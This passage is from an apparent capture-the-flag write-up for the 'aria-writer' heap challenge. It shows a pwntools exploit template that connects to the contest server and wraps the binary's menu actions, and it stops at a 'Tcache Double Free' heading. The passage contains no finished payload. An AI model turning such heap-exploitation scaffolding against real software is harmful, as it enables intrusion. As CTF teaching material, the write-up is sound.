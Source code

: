 The following sections will describe these steps in detail. 


## Exploit Details 

While developing the exploit we will be extending the following python script:

```py
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template aria-writer                                                                            
from pwn import *
import os

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./aria-writer')

libc = exe.libc

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwn.hsctf.com', 2222)
    else:
        return process([exe.path] + argv, *a, **kw)

env = dict(os.environ)

gdbscript = '''
continue
'''.format(**locals())

io = start(env=env)

def malloc(size, content):
    io.sendlineafter('Gimme int pls > ', '1')
    io.sendlineafter('Gimme int pls > ', str(size))
    io.sendlineafter('what should i write tho > ', content)

def free():
    io.sendlineafter('Gimme int pls >', '2')

def secret_name():
    io.sendlineafter('Gimme int pls >', '3')

```

### Tcache Double Free

